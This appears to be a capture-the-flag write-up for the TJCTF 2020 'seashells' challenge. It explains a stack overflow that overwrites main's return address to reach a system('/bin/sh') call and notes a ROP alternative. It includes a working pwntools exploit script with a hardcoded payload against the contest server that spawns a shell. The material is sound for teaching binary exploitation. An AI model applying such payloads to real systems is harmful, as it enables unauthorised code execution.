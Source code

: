 Taking a look at it's code we can see it simply checks if a given position in memory is equal to `0xdeadcafebabebeef` and, if it is, it calls `system(/bin/sh)`.

Obviously, the objective is to spawn the shell. There are two possible solutions for this challenge, one easier than the other:
* Since we can overwrite `main`'s' return address and the binary isn't PIC, we can jump directly to pushing "/bin/sh" into the stack and calling `system()` *(blue arrow in the image above)*.
* Since the comparison is made via `rdi` register, we could look for a ROP gadget that performs: `pop rdi; ret;`, jump to it and place the value on the stack so it passes the comparison. 
<p align="center">
  <img src="/images/CTF/TJCTF2020/seashells5.png"/><br>
  There indeed exists the needed ROP gadget.
</p> 

The first solution is obviously easier. However, in the following script I included both solutions (ROP is commented).

```python
# RazviOverflow 
# Python3
from pwn import *

#binary = process("seashells")
binary = remote("p1.tjctf.org", 8009)

shell_function_address = 0x4006c7
#pop_rdi = 0x400803
str_bin_sh = 0x004006e3

print(binary.recvuntil(b"?"))

#payload = b"A" * 0xa + b"b" * 8 + p64(pop_rdi) + p64(0xdeadcafebabebeef) + p64(shell_function_address)
payload = b"A" * 0xa + b"b" * 8 + p64(str_bin_sh) 

binary.sendline(payload)
#print(binary.recvall())
binary.interactive()
```

Executing the script spawns a shell on the server and we can get the flag.

<p align="center">
  <img src="/images/CTF/TJCTF2020/seashells6.png"/>
</p>
